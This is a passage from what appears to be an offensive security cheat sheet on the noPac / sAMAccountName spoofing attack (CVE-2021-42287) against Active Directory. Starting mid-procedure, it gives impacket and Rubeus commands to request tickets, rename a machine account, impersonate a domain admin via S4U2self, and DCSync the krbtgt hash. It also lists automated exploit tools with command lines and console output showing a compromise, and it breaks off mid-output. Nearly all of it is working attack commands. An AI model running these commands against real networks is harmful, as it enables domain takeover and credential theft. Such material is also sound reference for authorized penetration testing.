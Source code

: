 3.  Request a TGT for the controlled machine account
    
    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'
    
    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```
    
4.  Reset the controlled machine account sAMAccountName to its old value
    
    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'
    
    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```
    
5.  (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before
    
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'
    
    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```
    
6.  DCSync: `KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`

Automated exploitation:

- [cube0x0/noPac](https://github.com/cube0x0/noPac) \- Windows
    
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
    
- [Ridter/noPac](https://github.com/Ridter/noPac) \- Linux
    
    ```ps1
    python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
    ```
    
- [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
    
    ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                